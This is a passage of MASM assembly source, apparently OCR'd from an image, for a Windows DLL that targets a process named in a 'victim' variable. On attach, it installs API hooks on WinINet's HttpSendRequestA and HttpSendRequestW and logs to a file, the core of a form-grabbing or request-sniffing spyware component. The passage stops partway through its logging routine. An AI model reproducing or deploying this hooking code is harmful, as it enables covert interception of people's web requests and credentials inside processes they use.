```nasm
szLogPath       db "d:\log.txt",0
szStartLogging      db 'start logging..',13,10,0
CRLF            db 13,10

.data?
szVictim            byte 50 dup(?)
hCBTHook            dword ?
hGlobalModule       dword ?

szHeader            byte 512 dup(?)

.code
DllEntry proc hInstance:HINSTANCE, reason:DWORD, reserved1:DWORD
    .if reason==DLL_PROCESS_ATTACH
        .if hGlobalModule==0
            push hInstance
            pop hGlobalModule
        .endif
        invoke GetModuleHandle, addr szVictim
        .if eax!=0
            invoke MessageBox, 0, addr szVictim, addr szVictim, 0

            invoke lstrlen, addr szStartLogging
            invoke LogSecurity, addr szStartLogging, eax

            mov eax, offset MyHttpSendRequestAJMP
            invoke LoadApiHook, addr szWININET, addr szHttpSendRequestA, addr MyHttpSendRequestA, eax
            mov eax, offset MyHttpSendRequestWJMP
            invoke LoadApiHook, addr szWININET, addr szHttpSendRequestW, addr MyHttpSendRequestW, eax
        .endif
    .elseif reason==DLL_PROCESS_DETACH
        invoke GetModuleHandle, addr szVictim
    .endif
    mov eax, TRUE
    ret
DllEntry Endp

LogSecurity proc, lpBuffer:dword, bufLen:dword
    local hAppend:dword
    local dwPos:dword
    local dwByteWritten:dword

    invoke CreateFile, addr szLogPath,
        FILE_APPEND_DATA,
        FILE_SHARE_READ,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL

    mov hAppend, eax

    .if hAppend != -1
        invoke SetFilePointer, hAppend, 0, NULL, FILE_END
        mov dwPos, eax
        invoke LockFile, hAppend, dwPos, 0, bufLen + sizeof CRLF, 0
        invoke WriteFile, hAppend, lpBuffer, bufLen, addr dwByteWritten, NULL
        invoke WriteFile, hAppend, addr CRLF, sizeof CRLF, addr dwByteWritten, NULL
        invoke UnlockFile, hAppend, dwPos, 0, bufLen + sizeof CRLF, 0
        invoke CloseHandle, hAppend
    .endif
```